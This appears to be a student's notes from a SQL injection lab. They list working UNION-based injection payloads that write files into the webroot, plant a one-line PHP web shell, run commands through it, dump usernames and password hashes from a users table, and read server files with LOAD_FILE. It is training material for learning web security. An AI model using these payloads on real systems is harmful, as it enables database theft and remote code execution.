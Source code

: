 ```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```
	
![[Pasted image 20250523130649.png]]
	
- We don’t see any errors on the page, which indicates that the query succeeded. Checking for the file `proof.txt` in the webroot, we see that it indeed exists:
	-
![[Pasted image 20250523130740.png]]
	-
>[! Note] We see the string we dumped along with '1' before it, and '3' and '4' after it. This is because the entire 'UNION' query result was written to the file. To make the output cleaner, we can use "" instead of numbers.
### Writing a Web Shell
- Having confirmed write permissions, we can go ahead and write a PHP web shell to the webroot folder. 
	
- We can write the following PHP webshell to be able to execute commands directly on the back-end server.
	
```php
<?php system($_REQUEST[0]); ?>
```
	
- We can reuse our previous `UNION` injection payload, and change the string to the above, and the file name to `shell.php`.
	
```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
	
![[Pasted image 20250523131035.png]]
	
- Once again, we don't see any errors, which means the file write probably worked. 
	
- This can be verified by browsing to the `/shell.php` file and executing commands via the `0` parameter, with `?0=id` in our URL.
	
![[Pasted image 20250523151619.png]]
	
- The output of the `id` command confirms that we have code execution and are running as the `www-data` user.
---
---
## Commands used for the questions
```sql
94.237.59.174:40028

password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database

-> ' union select 1, 2, 3, 4 -- -
-> ' union select 1, schema_name, 3, 4  from information_schema.schemata -- -
-> ' union select 1, database(), 3, 4 -- -
-> ' union select 1, table_name, table_schema, 4  from information_schema.tables where table_schema='ilfreight' -- -
-> ' union select 1, column_name, table_name, table_schema from information_schema.columns where table_name='users' -- -
-> ' union select 1, username, password, 4 from ilfreight.users -- -
-> ' union select 1, user(), 3, 4 --
-> ' union select 1, super_priv, 3, 4 from mysql.user-- 
-> ' union select 1, grantee, privilege_type, 4 from information_schema.user_privileges where grantee="'root'@'localhost'"--
-> ' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```
